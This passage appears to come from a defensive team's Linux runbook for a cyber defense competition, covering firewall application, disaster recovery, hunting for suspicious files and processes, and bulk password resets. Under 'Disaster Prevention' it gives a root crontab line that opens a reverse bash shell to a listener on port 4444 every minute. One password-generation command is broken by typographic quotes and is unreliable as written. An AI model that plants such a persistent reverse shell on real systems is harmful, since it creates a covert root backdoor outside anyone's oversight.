4. Apply with `sudo iptables-apply`
5. Ensure new SSH sessions may be opened

## Disaster Prevention

1. Open multiple ssh sessions to different users
2. Add SSH key to multiple users, such as root
3. Determine your IP, and place the line below in root's crontab
	1. On your localhost you can listen to port 4444 to catch the shell

``` crontab
* * * * * /bin/bash -i >& /dev/tcp/<ip>/4444 0>&1
```

## Disaster Recovery

1. Service goes down
    1. Determine the service
	2. Determine if data is still present (look in `/etc/<service name>`)
		1. Restore if not: `cd /; tar xzf etc.tar.gz etc/<service name>`
    3. Try restarting: `sudo systemctl restart <service>`
    4. Find errors in logs with `sudo journalctl -xe <service>`
    5. If it is a configuration error, restore previous config or manually reset
    6. If the service is still down **alert the team**

2. Loosing access to a box
    1. **Alert the team**
    2. [Start nmap scan](#nmap)
    3. Try verbose ssh `ssh -v <user>@<ip>`

## Hunting

1. Find a process's parent ID with `ps -f <pid>` and look at `PPID`
2. Find binaries with suid bit executable by anyone `find / -perm -+s,o+x`
	1. `/usr/bin/mount.cifs` and `/usr/bin/unix_chkpwd` are suppose to have this bit set
3. List all files with creation date, most recent first: `find /usr /bin /etc \` \
    `/var -type f -exec stat -c "%W %n" {} + | sort -r > files`

4. List all files created after set date, most recent first: \
    `find /usr /bin /etc /var -type f -newermt <YYYY-MM-DD> -exec \` \
    `stat -c "%W %n" {} + | sort -rn > files`

## Duncan's Magic {#dmagic}

1. Remove users listed in **./disable.txt** \
    `while read user;do sudo usermod -L $user;done<disable.txt`

2. Generate new passwords for every user in **./users.txt**. Output format and filename as specified by SECCDC-2024 password reset guidelines. Ensure team number is correct and SERVICE is changed to match the corresponding service the passwords are being reset for.\
    `s='<service>'; while read u; do u=‘echo $u|tr -d ' '‘; \` \
    `p=‘tr -dc 'A-Za-z0-9!@#$%'</dev/urandom|head -c 24; echo‘; \` \
    `echo $s,$u,$p; done < users.txt > Team25_${s}_PWD.csv`
